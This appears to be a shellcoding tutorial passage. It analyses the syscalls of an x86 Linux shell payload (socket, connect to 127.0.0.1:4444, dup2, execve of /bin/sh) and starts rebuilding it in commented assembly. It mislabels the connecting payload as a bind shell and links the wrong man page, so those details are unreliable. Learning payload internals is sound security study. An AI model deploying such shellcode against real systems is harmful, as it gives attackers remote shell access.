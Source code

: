 If you go through the shellcode you'll see 6 syscalls happening. If you were to analyze how each function works along with their parameters, well it would take a long time. So I've saved you the trouble and compiled a list of each syscall being invoked in order of when they appear.

```
1. socketcall(SYS_SOCKET, (AF_INET, SOCK_STREAM, 0))
2. socketcalll(SYS_CONNECT,(ADDRESS-SYS_SOCKET-SOCKFD,ADDRESS-SYS_SOCKET-STRUCT(127.0.0.1,4444),len(16 bytes)))
3. dup2(acceptFD, (0x2,0x1,0x0))
4. execve(/bin//sh0x00)
```

Now I encourage you to actually go through the documentation of each so you have a fundamental understanding of what's actually happening.
You can find the documentation for each below:

```
1. https://man7.org/linux/man-pages/man2/socketcall.2.html
2. https://man7.org/linux/man-pages/man2/bind.2.html
3. https://man7.org/linux/man-pages/man2/dup.2.html
4. https://man7.org/linux/man-pages/man2/execve.2.html
```

If you're just looking for a quick and dirty explanation I've got you covered too.

```
1. socketcall(SYS_SOCKET) creates a kernel entry point for socket system calls
2. socketcall(SYS_CONNECT) connects a socket with a specified address (IP,PORT)
4. dup2(sockfd,*) creates a copy of the file descriptor and uses the new specified file descriptor
5. execve(/bin//sh0x00) executes the program referred to by pathname, which in this case is "/bin//sh"
```

Now that we know all the syscalls a simple shell-bind-tcp is making, we can replicate it in our own assembly code!

## Creating our own socket()

If you can remember, "socketcall(SYS_SOCKET)" is reponsible for the creation of a socket, which is our first step in creating this bind shell.

This can be achieved with the syscall "socketcall(SYS_SOCKET, (AF_INET, SOCK_STREAM, 0))".

In assembly that looks like this:
Note: I've added comments to show how each instruction interacts with the syscall.

```
; [+] Setting up socketcall() for SYS_SOCKET
	; int socketcall(int call, unsigned long *args)
	; int socket(int domain, int type, int protocol)
	; EAX = socketcall()
	; EBX = SYS_SOCKET[1]
	; ECX = (int domain, int type, int protocol)
	xor    eax,eax	;
	mov    al,0x66	; setting syscall as socketcall() [REF1]
	xor    ebx,ebx	;
	push   ebx	; setting ECX param in memory - 0x0 (0 for tcp(7) stream sockets)	:	[socket_struct --> REF3]
	inc    ebx	; setting EBX 0x1 (socketcall: SYS_SOCKET[1]) 				:	[socketCall_struct --> REF4]
	push   ebx	; setting ECX param in memory - 0x1,0x0 (socket: SOCK_STREAM[1]) 	:	[socket --> REF2]
	push   0x2	; setting ECX param in memory - 0x2,0x1,0x0 (socket: AF_INET[2])	:	[socket --> REF2]
	mov    ecx,esp	; ECX points to args on stack for socket() 				:	[socket_struct --> REF3]
	int    0x80	; calling socketcalll(SYS_SOCKET, (socket(AF_INET, SOCK_STREAM, 0))	
	xor    esi,esi	;
	mov    esi,eax 	; save sockfd in ESI for future syscalls
```